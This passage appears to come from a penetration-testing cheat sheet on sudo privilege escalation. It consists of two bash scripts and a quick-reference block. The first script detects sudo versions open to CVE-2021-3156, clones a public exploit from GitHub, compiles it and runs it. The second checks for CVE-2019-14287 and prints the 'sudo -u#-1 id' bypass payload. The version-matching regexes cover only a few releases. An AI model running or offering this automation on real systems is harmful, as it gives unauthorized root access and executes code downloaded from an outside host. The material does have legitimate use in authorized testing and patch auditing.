 ### Baron Samedit Automation
```bash
#!/bin/bash
echo "=== CVE-2021-3156 BARON SAMEDIT CHECK ==="

version=$(sudo -V 2>/dev/null | head -n1 | grep -oE "[0-9]+\.[0-9]+\.[0-9]+")
echo "Sudo version: $version"

if echo "$version" | grep -qE "(1\.8\.(31|27|21)|1\.9\.[0-2])"; then
    echo "[!] VULNERABLE to CVE-2021-3156"
    
    if [ ! -d "CVE-2021-3156" ]; then
        echo "[+] Downloading exploit..."
        git clone https://github.com/blasty/CVE-2021-3156.git
        cd CVE-2021-3156 && make
    fi
    
    echo "[+] Available exploit targets:"
    ./CVE-2021-3156/sudo-hax-me-a-sandwich 2>/dev/null || echo "Compile first with 'make'"
else
    echo "[-] Not vulnerable to CVE-2021-3156"
fi
```

### Policy Bypass Test
```bash
#!/bin/bash
echo "=== CVE-2019-14287 POLICY BYPASS CHECK ==="

if sudo -l >/dev/null 2>&1; then
    echo "[+] Sudo access available"
    version=$(sudo -V 2>/dev/null | head -n1 | grep -oE "[0-9]+\.[0-9]+\.[0-9]+")
    
    if echo "$version" | grep -qE "1\.[0-7]\.|1\.8\.(0|1[0-9]|2[0-7])"; then
        echo "[!] VULNERABLE to CVE-2019-14287: $version"
        echo "[+] Testing exploit:"
        echo "sudo -u#-1 id"
    else
        echo "[-] Not vulnerable to CVE-2019-14287"
    fi
else
    echo "[-] No sudo access"
fi
```

## 🔑 Quick Reference

### Immediate Checks
```bash
# Version vulnerability check
sudo -V | grep -E "(1\.8\.(31|27|21)|1\.9\.[0-2])"  # CVE-2021-3156
sudo -V | grep -E "1\.[0-7]\.|1\.8\.(0|1[0-9]|2[0-7])"  # CVE-2019-14287

# Sudo access check
sudo -l
```
